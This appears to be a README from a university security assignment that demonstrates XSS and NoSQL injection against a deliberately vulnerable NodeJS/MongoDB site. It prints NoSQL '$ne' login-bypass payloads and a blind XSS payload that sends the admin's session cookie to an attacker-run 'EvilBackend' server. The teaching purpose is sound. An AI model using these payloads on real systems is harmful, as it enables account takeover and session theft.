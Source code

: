 # ISEC3004-Assignment

## Introduction<br>

This is a repository for ISEC3004 Assignment. The assignment focuses on demostrating XSS and NoSQL Injection attacks.<br>
<br>
#### index.html - Main page for the website<br>
#### Backend - Backend Server
This backend acts as a server for the website. It is written in NodeJS and ExpressJS. It uses MongoDB as the database.<br>
To run the backend server, navigate to the directory and run the following commands:<br>
<b>Make sure to replace the mongoose.connect the URL with your mongoDB URL.<b>
  
```console
npm install
nodemon index.js
```

#### EvilBackend - Backend Server for Blind XSS<br>
This backend acts as the server used by the bad actor to hunt for sesstion cookies. It is written in NodeJS and ExpressJS.<br>
To run the backend server, navigate to the directory and run the following commands:<br>

```console 
npm install
nodemon index.js
```

***

#### NoSql - NoSQL Injection Attack<br>
1. A bad actor can use the following payload to login as a different user if the email is known.<br>

```console
"password": {"$ne": null}
```
<br>
2. If the email is unknown the following payload will log you in as the first user in the database (In most cases the admin) <br>

```console
"email": {"$ne": null}, "password": {"$ne": null}
```
<br>

In the above scenarios, {"$ne": null} means <b>not equal to null<b>.

#### XSS - XSS Attack <br>
When a user account is created with a XSS payload as the user such as: <br>

```console 
<img src="invalid-url" onerror="this.src='http://localhost:5001/hack?cookie='+document.cookie; this.removeAttribute('onerror');"></img>
```
<br>
The payload will be executed when the Administrator of the system loads the admin page. The invalid source url will cause an error and execute the XSS payload in onerror attribute. The payload will send the session cookie to the bad actor's server. The EvilBackend server will then display the session cookie on the page and send a Email to the bad actor as a notification.<br>
